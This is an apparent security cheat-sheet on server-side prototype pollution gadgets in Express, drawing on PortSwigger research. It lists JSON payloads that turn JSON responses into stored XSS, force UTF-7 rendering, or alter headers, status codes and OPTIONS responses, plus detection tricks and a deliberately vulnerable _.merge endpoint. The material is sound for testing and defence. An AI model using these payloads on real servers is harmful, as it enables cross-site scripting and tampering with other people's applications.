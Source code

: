 # Express Prototype Pollution Gadgets


## Serve XSS responses

**For further details** [**take a look to the original reserach**](https://portswigger.net/research/server-side-prototype-pollution)

### Change JSON content-type to HTML

In an Express app using a **JSON content type response** and reflecting a JSON:

```javascript
app.use(bodyParser.json({type: 'application/json'}));
app.post('/', function(req, res){
    _.merge({}, req.body);
   res.send(req.body);
});
```

In these cases XSS isn't normally possible with a JSON content type. However, with prototype pollution we can **confuse Express to serve up an HTML response.** This vulnerability relies on the application using **`res.send(obj)`** and using the body parser with the application/json content type.

```json
{"__proto__":{"_body":true,"body":"<script>evil()"}}
```

By **polluting** **`body`** and **`_body`** properties, it's possible to cause **Express to serve up the HTML content type** and reflect the `_body` property, resulting in stored XSS.

### Render UTF7

It's possible to make express **render UTF-7 content with**:

```json
{"__proto__":{"content-type": "application/json; charset=utf-7"}}
```

## Safe Scanning Techinques

### JSON spaces

The following PP will make attributes inside a JSON to have an extra space which won't break the functionality:

```json
{"__proto__":{"json spaces": " "}}
```

Then a reflected JSON will looks like:

```json
{"foo":  "bar"} -- Note the extra space
```

### Exposed Headers

The following PP gadget will make the server send back the HTTP header: **`Access-Control-Expose_headers: foo`**

```json
{"__proto__":{"exposedHeaders":["foo"]}}
```

It requires the **CORS module to be installed**

### **OPTIONS Method**

With the following payload, it's possible to **hide a method from an OPTIONS response**:

```javascript
// Original reponse: POST,GET,HEAD

// Payload:
{"__proto__":{"head":true}}

//New response: POST;GET
```

### **Status**

It's possible to change the **returned status code** using the following PP payload:

```json
{"__proto__":{"status":510}}
```

### Error

When you assign to a prototype with a primitive such as a string, it produces a **no-op operation since the prototype has to be an object**. If you attempt to assign a prototype object to the `Object.prototype` itself, this will **throw an exception**. We can use these two behaviours to **detect if prototype pollution was successful**:

```javascript
({}).__proto__.__proto__={}//throws type exception
({}).__proto__.__proto__="x"//no-op does not throw exception
```

### Reflected Value

When an application includes an object in its response, creating an attribute with an **unusual name alongside `__proto__`** can be insightful. Specifically, if **only the unusual attribute is returned** in the response, this could indicate the application's vulnerability:

```json
{"unusualName":"value","__proto__":"test"}
```

Moreover, in scenarios where a library like Lodash is employed, setting a property both via prototype pollution (PP) and directly inside the object offers another diagnostic approach. If such a property is omitted from the response, it suggests that Lodash is verifying the existence of the property in the target object before merging:

```javascript
{"__proto__":{"a":"value1"},"a":"value2","b":"value3"}
// If 'b' is the only property reflected, this indicates prototype pollution in Lodash
```

## Misc

### Allow Dots

There is an option in Express that allows you to **create objects from query string parameters**.\
You could definitely use it in a bug **chain** to exploit a **prototype pollution vulnerability**.

```json
{"__proto__":{"allowDots":true}}
```

**`?foo.bar=baz` create an object in Node.**

## References

* [https://portswigger.net/research/server-side-prototype-pollution](https://portswigger.net/research/server-side-prototype-pollution)


